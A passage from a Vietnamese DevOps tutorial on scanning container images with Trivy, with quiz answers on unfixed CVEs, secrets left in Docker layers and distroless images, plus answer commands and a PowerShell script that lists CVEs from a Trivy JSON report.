* **Câu 3:** Vì nó giúp lọc bỏ các lỗ hổng mà hiện tại các nhà bảo trì mã nguồn mở **chưa phát hành bản vá**. Điều này giúp pipeline CI/CD không bị chặn oan uổng trước những lỗi mà lập trình viên không có cách nào sửa chữa.
* **Câu 4:** **CÓ PHÁT HIỆN RA!** Vì các layer của Docker image có tính chất bất biến (Immutable). File mật khẩu vẫn nằm nguyên vẹn ở layer phía trước và bất kỳ ai kéo image về đều có thể giải nén layer đó ra để đọc trộm.
* **Câu 5:** Distroless image là container image siêu tối giản chỉ chứa đúng file nhị phân của ứng dụng và các runtime dependencies tối thiểu (như glibc), hoàn toàn KHÔNG có shell (`bash`, `sh`), không có package manager (`apt`, `apk`) hay tiện ích hệ thống thừa thãi. Vì không có các package thừa nên bề mặt tấn công bị triệt tiêu, đưa số lượng CVE về gần bằng 0.
</details>

---

## 11. Tài liệu đọc thêm và bài tiếp theo

### Tài liệu tham khảo
* [Trivy Official Documentation](https://aquasecurity.github.io/trivy/)
* [National Vulnerability Database (NIST NVD)](https://nvd.nist.gov/)
* [Google Container Tools: Distroless Base Images](https://github.com/GoogleContainerTools/distroless)

### Bài tiếp theo
👉 **Bài 36: Kiểm toán & Giám sát bất thường Runtime: Audit Log & Falco**

---

## PHỤ LỤC: ĐÁP ÁN GỢI Ý BÀI TẬP TỰ LÀM (MỤC 9)

### Đáp án Mức Dễ
```powershell
# Quét alpine
docker run --rm -v /var/run/docker.sock:/var/run/docker.sock aquasec/trivy:latest image alpine:latest

# Quét ubuntu
docker run --rm -v /var/run/docker.sock:/var/run/docker.sock aquasec/trivy:latest image ubuntu:latest
```
**Giải thích:** `alpine` hầu như có 0 hoặc rất ít CVE vì nó là bản phân phối siêu nhẹ (dung lượng chỉ ~5MB, dùng thư viện `musl libc`). Trong khi `ubuntu` nặng gần 80MB chứa rất nhiều gói thư viện tiện ích mặc định, dẫn đến số lượng CVE tiềm ẩn cao hơn nhiều.

---

### Đáp án Mức Vừa
```powershell
docker run --rm -v /var/run/docker.sock:/var/run/docker.sock aquasec/trivy:latest image --severity CRITICAL --ignore-unfixed python:3.9-slim
```

---

### Đáp án Mức Khó
Script PowerShell trích xuất tự động danh sách CVE ID từ báo cáo JSON:
```powershell
# 1. Quét và xuất ra file JSON
docker run --rm -v /var/run/docker.sock:/var/run/docker.sock aquasec/trivy:latest image --format json --output /tmp/report.json gcr.io/google-samples/microservices-demo/cartservice:v0.10.1

# Giả sử lưu nội dung json vào biến $jsonReport:
$jsonRaw = docker run --rm -v /var/run/docker.sock:/var/run/docker.sock aquasec/trivy:latest image --format json gcr.io/google-samples/microservices-demo/cartservice:v0.10.1
$report = $jsonRaw | ConvertFrom-Json

# 2. Duyệt qua các lỗ hổng tìm thấy
Write-Output "=== DANH SÁCH LỖ HỔNG CVE PHÁT HIỆN ĐƯỢC ==="
foreach ($result in $report.Results) {
    if ($result.Vulnerabilities) {
        foreach ($vuln in $result.Vulnerabilities) {
            Write-Output "Mã CVE:      $($vuln.VulnerabilityID)"
            Write-Output "Thư viện:    $($vuln.PkgName) (Bản cài: $($vuln.InstalledVersion) -> Bản sửa: $($vuln.FixedVersion))"
            Write-Output "Mức độ:      $($vuln.Severity)"
            Write-Output "Link chi tiết: $($vuln.PrimaryURL)"
            Write-Output "--------------------------------------------------------"
        }
    }
}
```

